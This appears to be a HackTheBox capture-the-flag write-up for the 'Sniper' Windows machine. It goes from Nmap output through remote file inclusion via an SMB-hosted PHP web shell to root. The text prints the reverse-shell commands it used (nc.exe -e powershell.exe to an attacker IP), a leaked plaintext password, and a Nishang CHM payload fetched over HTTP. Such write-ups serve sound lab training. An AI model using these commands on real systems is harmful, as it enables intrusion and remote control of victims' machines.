








[logo]: sniper-01.jpg


---
## NMAP:
As always we will start with Nmap to scan for open ports and services:

```console

# Nmap 7.80 scan initiated Mon Mar  9 17:56:22 2020 as: nmap -sC -sV -p- -oA sniper -v 10.10.10.151
Nmap scan report for 10.10.10.151 (10.10.10.151)
Host is up (0.16s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h01m55s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-09T23:08:46
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  9 18:07:28 2020 -- 1 IP address (1 host up) scanned in 666.29 seconds


```

---
* Lets check HTTP service 


* First thing we found is a login page 



We tried to register and login but the page shows under construction message


---
## RFI :

* When exploring the website we notice that page which could lead to LFI/RFI



* After many trials and researches  I found that article in the Resources that using samba share with RFI
So I configured my share as following and add a PHP web shell


* Let's use the web shell to know users of the machine


* When exploring the web files we found that db.php which contain a potential creds 




## Reverse Powershell :


* Let's use the web shell to upload Netcat and try to use the creds to gain a reverse Powershell 




## User :

* Let's try the password with user Chris and use Netcat to gain a reverse shell

```markdown
icacls "C:\tmp" /grant iusr:F

$user = "SNIPER\\Chris"
$password = "36mEAhz/B8xQ~2VM"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword
Invoke-Command -ComputerName SNIPER -Credential $credential -ScriptBlock { C:\tmp\nc.exe -e powershell.exe 10.10.16.22 5555}

```


And We got User Flag

---
When exploring the files on the machine we found this massage in Docs folder




Also, We found that indstuctions.chm file in the Downloads folder


I copied the file to samba share and opened it on Windows machine



* and We decided to snipe him :D

---

## Root :
 after searching on Web about this file type we found that Nishang PS script to create CHM payload 

```markdown
Out-CHM –Payload "C:\tmp\nc.exe 10.10.16.22 6666 -e powershell.exe" –HHCPath “C:\Program Files (x86)\HTML Help Workshop”
```


* Let's copy the payload to the machine over HTTP


```markdown

Invoke-WebRequest -Uri http://10.10.16.22/doc.chm -OutFile c:\docs\doc.chm

```







* and we got root flag


## Resources:


[http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

[https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)


[](https://www.hackthebox.eu/profile/131282 "Zer0Code")


